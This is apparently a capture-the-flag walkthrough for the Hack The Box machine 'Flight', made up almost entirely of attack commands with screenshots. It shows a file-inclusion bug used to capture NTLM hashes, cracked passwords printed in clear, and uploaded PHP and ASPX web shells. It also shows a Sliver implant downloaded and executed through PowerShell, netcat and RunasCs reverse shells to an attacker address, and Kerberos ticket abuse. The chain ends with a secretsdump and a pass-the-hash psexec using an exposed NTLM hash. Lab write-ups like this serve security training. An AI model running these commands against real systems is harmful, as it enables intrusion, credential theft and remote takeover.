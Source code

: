 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.187
```
![image](https://github.com/user-attachments/assets/da0db716-6fc7-4868-9063-f8eb482b0699)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.187/FUZZ -fs 301 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/2850a394-3d54-4977-af3e-06b6a0943679)

```
http://10.10.11.187/js/
http://10.10.11.187/webalizer
```
![image](https://github.com/user-attachments/assets/a46bbaff-8c71-4086-83f8-508087d7cbc5)

![image](https://github.com/user-attachments/assets/8c539968-e03e-4566-86fb-d881f66241e1)

![image](https://github.com/user-attachments/assets/a6c97e05-0847-4dec-9825-f516fe4e5919)

```
smbclient -L \\\\10.10.11.187\\
```
![image](https://github.com/user-attachments/assets/5bd1feb8-6623-4ea0-9228-3a18044dd1ed)

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://flight.htb/ -H "Host: FUZZ.flight.htb" -fs 7069 -fw 22
http://school.flight.htb/
```
![image](https://github.com/user-attachments/assets/aee893f0-607c-4bcf-a79f-6e64c1b3b467)

![image](https://github.com/user-attachments/assets/3544e75a-a72e-4445-a9a8-2d8425e73698)

![image](https://github.com/user-attachments/assets/afe1a807-2a86-4823-bc31-ed7d4613d2ec)

![image](https://github.com/user-attachments/assets/afd9a8ae-b88a-4ec2-9bf9-8b7c2b3a2282)


```
http://school.flight.htb/index.php?view=C:\Windows\System32\drivers\etc\hosts
http://school.flight.htb/index.php?view=C:/Windows/System32/drivers/etc/hosts
```
![image](https://github.com/user-attachments/assets/bb59771b-0276-4f81-9240-b5d3b50f927f)

![image](https://github.com/user-attachments/assets/556c0fb2-f7c6-4da5-ba99-f436de0fa2d4)

```
responder -I tun0 -v
http://school.flight.htb/index.php?view=//10.10.14.10/htb
```
![image](https://github.com/user-attachments/assets/1e1626e5-4301-4a47-a35b-c62de8278213)

![image](https://github.com/user-attachments/assets/2b28de17-b9a4-4712-8e0b-a1760f40fdc4)

![image](https://github.com/user-attachments/assets/5766689f-d589-4935-8e18-ab27fcefeaf7)

```
john hash -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/cdd13c88-49a6-44dd-942d-de2ce714914c)

```
crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13'
smbclient -L \\\\10.10.11.187\\ -U flight.htb/svc_apache
smbclient \\\\10.10.11.187\\Users -U flight.htb/svc_apache
```
![image](https://github.com/user-attachments/assets/e294c7ed-cbe6-446f-a727-df2d691adf9b)

![image](https://github.com/user-attachments/assets/7c6e5380-1057-47e2-af76-99b635c8a462)

```
ldapdomaindump -u flight\\svc_apache -p 'S@Ss!K@*t13' 10.10.11.187
```
![image](https://github.com/user-attachments/assets/c3ebc833-0519-4560-b505-e72ff079fd02)

![image](https://github.com/user-attachments/assets/dcc8cf1f-0451-40b7-adb8-519e15e6fa2a)

```
cat domain_users.grep | grep "Domain Users" | awk -F' ' '{print $1}'
```
![image](https://github.com/user-attachments/assets/35ea9369-f4c7-4d9d-af70-c7aa79dbf8f3)

```
crackmapexec smb 10.10.11.187 -u users_all2 -p 'S@Ss!K@*t13'
smbclient \\\\10.10.11.187\\Users -U flight.htb/S.Moon
```
![image](https://github.com/user-attachments/assets/b2c28c8f-9b78-4ea5-a303-42bb3f8eb1bc)

![image](https://github.com/user-attachments/assets/e5025d57-1e46-460d-8c34-5a16dc3a7a12)

```
responder -I tun0 -v
git clone https://github.com/Greenwolf/ntlm_theft
cd ntlm_theft
python3 ntlm_theft.py --generate all --server 10.10.14.67 --filename htb
impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
use Shared
put htb/htb.scf
put htb/desktop.ini
```
![image](https://github.com/user-attachments/assets/10fbe7bd-87a5-48e3-bb56-023c24d00cc5)

![image](https://github.com/user-attachments/assets/b88fa92a-a028-4cbc-b5c2-66c7873b7b72)

![image](https://github.com/user-attachments/assets/f4e28f04-bad2-4f94-a7d0-a060cf8d571d)

![image](https://github.com/user-attachments/assets/1a94094b-c242-4f12-87c2-6001b7bd9647)

```
john hash2 -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/c21d7cab-6462-4292-b2c1-78d94c8ca787)

```
smbmap -H flight.htb -u 'c.bum' -p 'Tikkycoll_431012284’
smbclient \\\\10.10.11.187\\Users -U flight.htb/c.bum
```
![image](https://github.com/user-attachments/assets/5f8f8e57-28d7-4b56-81ee-87b0b30ceadb)

![image](https://github.com/user-attachments/assets/302ae4c5-18e6-46f8-a03b-eca6ae622004)

![image](https://github.com/user-attachments/assets/1684f74d-d5b0-47b5-b676-18ac75e40f08)

```
shell.php
impacket-smbclient c.bum:'Tikkycoll_431012284'@flight.htb
use Web
cd flight.htb
put shell.php
curl 'http://flight.htb/shell.php?c=whoami'
```
![image](https://github.com/user-attachments/assets/cdaf2df1-802d-475f-b0d7-19d04a63c64e)

![image](https://github.com/user-attachments/assets/ac9f6582-c7d2-4c25-b307-d6f622182fb1)

![image](https://github.com/user-attachments/assets/7752f16c-5622-40f8-89e1-f73e954bde5a)

```
curl https://sliver.sh/install|sudo bash
sliver
service sliver start
```
![image](https://github.com/user-attachments/assets/7e2836e1-809d-41d9-bbb1-41ffe9863cf6)

![image](https://github.com/user-attachments/assets/7c22997e-2be4-4fdc-b72f-d3482509537b)

```
generate --os windows --arch 64bit --mtls 10.10.14.10 --reconnect 60 --save htb.exe
mtls
sudo python3 -m http.server 80
curl 'http://flight.htb/shell.php?c=powershell%20-c%20%22wget%2010.10.14.10%2Fhtb.exe%20-usebasicparsing%20-outfile%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe%3B%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe’
powershell -c "wget 10.10.14.67/htb.exe
-usebasiparsing -outfile C:\users\public\music\htb.exe; C:\users\public\music\htb.exe
sessions -i ce7
whoami
```
![image](https://github.com/user-attachments/assets/fdb9c34e-789b-44ed-8176-f8c7b6136895)

![image](https://github.com/user-attachments/assets/160a9bd1-dd78-4613-ab90-c23219853b1e)

```
upload RunasCs.exe
shell
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.10:443 cmd
rlwrap -cAr nc -lnvp 443
```
![image](https://github.com/user-attachments/assets/0afb6079-5023-44bc-b3c8-cb525f89e915)

![image](https://github.com/user-attachments/assets/119887a8-bf17-43ee-a172-7b3faaf16e3d)

```
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gunzip chisel_1.9.1_linux_amd64.gz
cd C:\ProgramData
powershell -c wget 10.10.14.10/chisel_1.9.1_windows_amd64 -outfile c.exe
./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
.\c.exe client 10.10.14.10:8000 R:8001:127.0.0.1:8000
```
![image](https://github.com/user-attachments/assets/bdca86b0-a387-4e04-9c76-50411f413638)

![image](https://github.com/user-attachments/assets/6dcb86d6-3447-4771-a36d-de86ae4a3b3a)

```
http://127.0.0.1:8001/
```
![image](https://github.com/user-attachments/assets/a4d6eb09-9059-4a20-b467-ffca60eb1b28)

![image](https://github.com/user-attachments/assets/fc837a14-ffb6-4d0d-bc6d-1f383582e673)

```
[Open another terminal]
generate --os windows --arch 64bit --mtls 10.10.14.10 --reconnect 60 --save htb.exe
Mtls
sessions -i 78218585
upload RunasCs.exe
Shell
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.10:443 cmd
rlwrap -cAr nc -lnvp 443
```
![image](https://github.com/user-attachments/assets/3a113998-1dc5-4410-8b61-c484bab5cf4b)

![image](https://github.com/user-attachments/assets/4a91b011-9e9b-45ec-9fb2-c69966ee2151)

```
[Open another terminal]
OR
powershell -c wget 10.10.14.10/RunasCs.exe -outfile RunasCs.exe
rlwrap -cAr nc -lnvp 443
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.10:443 cmd
whoami /all
```
![image](https://github.com/user-attachments/assets/63c1f959-50cd-43ae-a76a-e5fc03b6392c)

![image](https://github.com/user-attachments/assets/c612edcb-0edf-4b3d-ab89-7c8d20265d61)

```
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx
powershell -c wget 10.10.14.10/cmd.aspx -outfile cmd.aspx
http://127.0.0.1:8001/cmd.aspx
```
![image](https://github.com/user-attachments/assets/a069aa36-aed7-4d57-8d62-f0e1dcda6314)

![image](https://github.com/user-attachments/assets/5d06d231-b107-4302-9ea5-0e63ef8330f0)

```
cd C:\ProgramData
powershell -c wget 10.10.14.10/nc64.exe -outfile nc64.exe
cd C:\inetpub\development
powershell -c wget 10.10.14.10/cmd.aspx -outfile cmd.aspx
wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe
http://127.0.0.1:8001/cmd.aspx
/c \ProgramData\nc64.exe -e cmd 10.10.14.10 443
rlwrap -cAr nc -lnvp 443
```
![image](https://github.com/user-attachments/assets/9615f407-2b80-4d81-8d9b-c116f2ce3292)

![image](https://github.com/user-attachments/assets/80674471-d7b9-4eac-ba95-2f71b28b502e)

![image](https://github.com/user-attachments/assets/ab427c83-1de6-4ed4-a7f3-15c3a63f98c6)

```
cd C:\ProgramData
powershell -c wget 10.10.14.10/Rubeus.exe -outfile Rubeus.exe
.\rubeus.exe tgtdeleg /nowrap
kirbi2ccache ticket.kirbi ticket.ccache
```
![image](https://github.com/user-attachments/assets/283dcf4b-40a0-4cad-a920-d2abe009304a)

```
cat ticket.b64 | base64 -d > ticket2.kirbi
```
impacket-ticketConverter ./ticket3.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
sudo service virtualbox-guest-utils stop
sudo ntpdate -s 10.10.11.187
10.10.11.187 g0.flight.htb
./secretsdump.py -k -no-pass g0.flight.htb -just-dc-user administrator
```
![image](https://github.com/user-attachments/assets/2ba39d78-6c3e-4cab-965e-f328debb03c0)

![image](https://github.com/user-attachments/assets/67cffcf8-2ac6-483a-9c3e-c324d580c59b)

```
impacket-psexec administrator@flight.htb -hashes aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c
type ..\..\Users\Administrator\Desktop\root.txt
```
![image](https://github.com/user-attachments/assets/91e04112-107e-42f4-b399-c1d51640eb66)
